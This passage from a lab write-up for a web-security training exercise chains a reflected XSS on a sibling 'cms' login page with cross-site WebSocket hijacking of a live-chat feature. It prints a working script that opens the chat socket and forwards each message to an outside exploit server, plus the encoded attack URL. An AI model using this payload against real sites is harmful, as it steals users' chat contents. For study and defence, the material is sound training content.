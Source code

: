 **After poking around, I can trigger it via GET method:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113204040.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113204104.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113204112.png)

Now let's take a step back.

**We now found 2 vulnerabilities:**

1. CSWSH in `0a200002035e04ccc0cea048008a00db`'s "Live chat"
2. Reflected XSS in `cms` sibling domain's login page

Let's chain them together!

As `cms` sibling domain is part of the same site, we can use the reflected XSS to perform the CSWSH attack without it being mitigated by SameSite restriction:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113204303.png)

**CSWSH payload:**
```html
<script>
    var webSocket = new WebSocket('wss://0a200002035e04ccc0cea048008a00db.web-security-academy.net/chat');
    webSocket.onopen = function() {
        webSocket.send("READY");
    };
    webSocket.onmessage = function(event) {
        fetch('https://exploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net/log?'+event.data, {method: 'GET'});
    };
</script>
```

**URL encode all of it:**
```
%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a200002035e04ccc0cea048008a00db.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E
```

**So our XSS payload will be:**
```
https://cms-0a200002035e04ccc0cea048008a00db.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a200002035e04ccc0cea048008a00db.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=a
```

